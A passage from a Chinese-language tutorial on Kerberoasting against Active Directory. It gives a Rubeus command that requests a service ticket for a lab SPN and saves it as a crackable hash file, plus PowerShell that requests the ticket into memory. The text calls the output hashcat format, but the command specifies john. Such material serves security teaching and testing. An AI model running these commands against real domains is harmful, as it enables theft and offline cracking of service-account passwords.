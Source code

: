 ![截图](98a01073da31619d57e9785a1df02ba5.png)

如下命令会请求注册于用户下指定 SPN 的服务票据，并以 hashcat 能破解的格式保存为 hash2.txt 文件

```
Rubeus.exe kerberoast /spn:MySQL/win7.xie.com:3306 /format:john /outfile:hash2.txt
```

#### 3.powershell 命令请求

如下 powershell 命令用于请求指定 SPN 的服务票据，请求的服务票据保存在内存中。

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MySQL/win7.xie.com:3306"
```

如图所示，通过运行 powershell 命令请求指定`SPN"MySQL/win7.xie.com:3306"` 的服务票据。
